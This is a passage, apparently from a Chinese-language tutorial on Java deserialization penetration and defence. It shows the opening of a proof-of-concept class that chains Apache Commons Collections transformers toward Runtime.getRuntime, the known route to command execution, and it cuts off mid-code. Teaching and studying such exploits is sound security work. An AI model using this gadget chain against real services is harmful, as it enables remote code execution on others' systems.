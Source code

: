 poc构造

![image-20240826235546375](反序列化渗透与防御/image-20240826235546375.png)	

poc代码如下。

```java
package com.wuya.apache;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

/**
 * 封装为TransformedMap
 */
public class Poc {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    // 获得Runtime类对象
                    new ConstantTransformer(Runtime.class),
                    // 传入Runtime类对象 反射执行getMethod获得getRuntime方法
                    new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", null}
```